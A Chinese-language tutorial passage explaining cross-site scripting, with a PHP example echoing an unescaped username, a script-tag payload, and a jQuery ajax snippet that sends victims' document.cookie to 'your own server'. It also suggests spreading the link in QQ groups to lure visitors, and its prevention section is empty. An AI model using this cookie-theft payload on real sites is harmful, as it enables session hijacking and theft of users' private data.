 
## 概念

XSS是最常见的一种web攻击方式，它指的是恶意用户把代码注入到其他用户要访问的网站中。

站在前端的角度，可以理解为将js代码注入。

```php
<?php
    $username="鹏仔";
?>
<!DOCYTPE HTML>
<html>
    <head>
        <meta charset="utf-8" />
    </head>
    <body>
        <div>
            用户名：<?php echo $username;?>
        </div>
    </body>
</html>
```

如果你的用户名，起名称的时候，带上script标签呢？我们知道，浏览器遇到html中的script标签的时候，会解析并执行标签中的js脚本代码，那么如果你的用户名称里面含有script标签的话，就可以执行其中的代码了。代码如下：

```php
<?php
    $username="<script>alert('侯医生');</script>";
?>
```

如果你将自己的用户名设定为这种执行脚本的方式，再让别人去访问你的连接的话，就可以达到在他人web环境中，执行自己脚本的效果了。我们还可以使用ajax，将其他用户在当前域名下的cookie获取并发送到自己的服务器上。这样就可以获取他人信息了。比如，刚刚咱们使用的不是alert而是，如下的代码：

```javascript
$.ajax({
    url: '自己的服务器',
    dataType: 'jsonp',
    data: {'盗取的用户cookie': document.cookie}
});
```

再在各个QQ群中，散播自己的空间，引诱别人来访问。就可以拿到用户在这个域名下的cookie或者其他隐私了。

## 防范






